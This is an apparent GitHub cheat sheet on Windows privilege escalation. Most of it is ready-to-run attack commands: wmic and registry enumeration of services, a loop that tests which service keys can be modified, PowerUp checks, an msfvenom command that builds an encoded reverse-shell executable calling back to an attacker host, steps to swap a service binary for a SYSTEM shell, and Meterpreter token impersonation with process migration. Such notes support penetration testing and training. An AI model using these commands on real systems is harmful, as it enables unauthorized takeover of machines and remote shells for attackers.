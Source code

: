 # Windows Privilege Escalation
## Enumeration
- List installed products
```cmd
wmic product
wmic product get name,version,vendor
```
- List services
```cmd
wmic service list brief
get-service
wmic service list brief | findstr  "Running"
```

## Misconfiguration
- List unquoted services
```
wmic service get name,displayname,pathname,startmode
get-wmiobject win32_service | select name,pathname
```
- Find writable folders
```
.\accesschk.exe /accepteula -uwdq "C:\Program Files\"
```
- DLL Hijacking
- Privileges

## PowerUp.ps1
- Dot source the script and launch checks
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```
- Look for CanRestart=True and modifiable executable services
- Generate an exe payload with MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -e x86/shikata_ga_nai -f exe -o file.exe
```
- Upload the payload and restart the service to get root shell

## Services misconfiguration
- list services image path
```cmd
reg query hklm\System\CurrentControlSet\Services /s /v imagepath
```
- try to write to every paths
```
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a
```

## Token Impersonation
- check current user's privileges
```
whoami /priv
```
- Look for abusable privileges
```
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
```

### Search for local exploit using Metasploit
```sh
use post/multi/recon/local_exploit_suggester
```

### Meterpreter Incognito module
```sh
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrator"
# Search for a process running under the same account that has been impersonated
ps
migrate pid
```

## Links
___
### Guides
- https://lolbas-project.github.io/
